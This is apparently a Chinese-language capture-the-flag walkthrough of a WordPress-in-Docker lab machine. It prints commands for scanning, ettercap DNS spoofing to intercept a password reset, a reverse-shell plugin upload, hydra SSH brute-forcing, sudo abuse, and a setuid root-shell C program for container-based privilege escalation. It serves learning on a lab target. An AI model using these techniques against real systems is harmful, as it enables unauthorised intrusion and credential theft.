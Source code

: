 # 靶场拓扑&情况
这个靶场只有一台机器，在外面访问到的WordPress是运行在docker中的，打点进去后，主要是容器逃逸和利用docker挂载目录来实现提权

# 渗透过程

nmap网络扫描
`nmap -v -A 192.168.163.0/24`

![](attachments/Pasted%20image%2020230304092401.png)

站点为WordPress 5.2.3，WPscan扫描
`wpscan --url http://192.168.163.135 -e u `

![](attachments/Pasted%20image%2020230304095111.png)

扫目录也没有效果，这个靶机一扫就烂，非常的卡，在进入login的时候发现很卡顿，而且url变成了tf2的域名
在hosts文件中加入tf2.com的记录

这里提供了忘记密码的选项
但是在尝试获得新密码的时候，出现了报错，猜测是邮件服务没有

![](attachments/Pasted%20image%2020230304103734.png)

wirshark监听，也证实了这个猜想，可以通过建立一个smtp服务，通过中间人攻击来拿到新的密码

修改etter.dns 中的值来将域名伪造为需要的 `smtp.tempusfugit2.com`和 `smtp.tempusfugit2.com.localdomain`

![](attachments/Pasted%20image%2020230304111035.png)

本地用python起一个简单的smtp服务
`sudo python3 -m smtpd -n -c DebuggingServer 192.168.163.135:25`
然后启动ettercup扫描host主机，将靶机添加到target1中，同时选择dns_spoof插件，注意要在MITM中打开ARP sniff remote connection

![](attachments/Pasted%20image%2020230304111546.png)

在这之后提交reset admin的密码,伪造的邮箱就会收到更新链接,进去后更新为新的直接登录后台

![](attachments/Pasted%20image%2020230304144148.png)

![](attachments/Pasted%20image%2020230304144413.png)

主题没有办法提交,用激活插件的方法反弹shell,需要自己写一个插件
[register_activation_hook() - 设置插件的激活（启用）钩子 - WordPress函数 - WordPress动力 (wpdongli.com)](https://www.wpdongli.com/reference/functions/register_activation_hook/)

压缩为zip包上传后激活就可以弹到shell

![](attachments/Pasted%20image%2020230304151542.png)

但是现在的shell并不是tty,在这个里面找到了别的东西`dG9ycmllOjlhNGx3MHI4MmN4Mgo=`

![](attachments/Pasted%20image%2020230304151838.png)

在wordpress中有一篇文章

![](attachments/Pasted%20image%2020230304151955.png)

是port koncking
[靶机-简单谈一下端口碰撞技术 (Port Knocking) - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/210177505)

![](attachments/Pasted%20image%2020230304152256.png)

很明显了`1981 867 5309`
不知道为什么我的kali没有办法下载konckd,所有用nmap来替代了
`nmap 192.168.1.132 -Pn -p 1981,867,5309`

![](attachments/Pasted%20image%2020230304152901.png)

这个时候该连ssh了但是,发觉自己没有账号密码,回想起了刚刚的nb.txt,base64一下
`torrie:9a4lw0r82cx2`

![](attachments/Pasted%20image%2020230304153209.png)


登录的时候傻了,没反应登不上,感觉可能是konck没到

![](attachments/Pasted%20image%2020230304154012.png)

反应过来了,是改了hosts文件

![](attachments/Pasted%20image%2020230304170942.png)

有很多账号

![](attachments/Pasted%20image%2020230304171047.png)

sudo -l 尝试提权

![](attachments/Pasted%20image%2020230304171422.png)

`sudo -u syd timedatectl list-timezones`

![](attachments/Pasted%20image%2020230304172009.png)

拿到用户标识 `a81be4e9b20632860d20a64c054c4150`

![](attachments/Pasted%20image%2020230304172103.png)


![](attachments/Pasted%20image%2020230304172511.png)

接下来sudo -l 没有密码那个用户标识也没有用
爆破密码
`hydra -V -t 4 -l syd -P '/usr/share/wordlists/rockyou.txt.gz' ssh://192.168.1.132:22`

![](attachments/Pasted%20image%2020230304174451.png)

sudo -l

![](attachments/Pasted%20image%2020230304174641.png)

`sudo docker exec -it 1786dd63dedb /bin/bash`

![](attachments/Pasted%20image%2020230304174836.png)

本地编译一个用于提权的文件
`gcc shell.c -o shell`

```c
int main(void) {

    setgid(0); setuid(0);

    execl("/bin/sh","sh",0);

}
```

![](attachments/Pasted%20image%2020230304175352.png)

在docker容器中wget,没有wget apt install一下
啊不,有curl,然后chmod 4755 shell

![](attachments/Pasted%20image%2020230304175934.png)

当出去提权的时候发现,工作目录是wp-content,回去吧shell挪进去
运行的时候发现，glic版本对不上，最好还是传进去让docker里的系统自己编译，或者ssh传进去让外面的linux编译

![](attachments/Pasted%20image%2020230304180508.png)